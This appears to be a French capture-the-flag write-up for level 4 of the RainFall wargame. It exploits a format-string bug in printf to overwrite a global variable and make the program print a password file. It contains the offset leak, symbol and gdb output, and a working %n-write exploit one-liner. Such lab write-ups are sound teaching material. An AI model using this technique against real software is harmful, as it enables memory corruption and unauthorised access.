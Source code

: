 # Level 4

Dans ce programme nous voyons 2 fonctions, n() et p()
La fonction p() fait un appel a printf de maniere non securise, nous allons donc l'exploiter pour ecraser la valeur de la variable globale "m". Car la valeur de m est ensuite verifie dans une condition if pour nous afficher le .pass avec un appel a system et /bin/cat.

Nous allons d'abord chercher l'offset sur lequel ce printf ecrase la memoire:

```

AAAAb7ff26b0.bffff794.b7fd0ff4.00000000.00000000.bffff758.0804848d.bffff550.00000200.b7fd1ac0.b7ff37d0.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.
```

Nous trouvons que c'est sur le 12eme octet.
Nous pouvons le verifier ainsi:

```
level4@RainFall:~$ python -c 'print("AAAA%12$p")' | ./level4
AAAA0x41414141
```

Nous cherchons ensuite l'adresse de la globale m

```
level4@RainFall:~$ objdump -t ./level4 | grep m
./level4:     file format elf32-i386
080481b0 l    d  .dynsym	00000000              .dynsym
080485b4 l    d  .eh_frame_hdr	00000000              .eh_frame_hdr
080485f8 l    d  .eh_frame	00000000              .eh_frame
08049710 l    d  .dynamic	00000000              .dynamic
00000000 l    d  .comment	00000000              .comment
08049808 l     O .bss	00000001              completed.6159
08048420 l     F .text	00000000              frame_dummy
080486f8 l     O .eh_frame	00000000              __FRAME_END__
08049710 l     O .dynamic	00000000              _DYNAMIC
00000000       F *UND*	00000000              system@@GLIBC_2.0
00000000  w      *UND*	00000000              __gmon_start__
00000000       F *UND*	00000000              __libc_start_main@@GLIBC_2.0
08049810 g     O .bss	00000004              m
080484a7 g     F .text	0000000d              main
```

La derniere a faire est de trouver la valeur a mettre dans la globale m,
nous le faisons avec gdb:

```
level4@RainFall:~$ gdb ./level4
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) disass n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt>
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```

Finalement nous procedons a l'injection.
Le format "%Nd" remplace le `N` par un chiffre, ce qui nous permet de ne pas mettre les `N` octets nécessaires (Remplacer `"B" * 64` par `"%64d`)

```
$ (python -c 'print "\x10\x98\x04\x08"+"%"+str(0x1025540)+"d%12$n"') | ./level4
```

And we get the .pass !
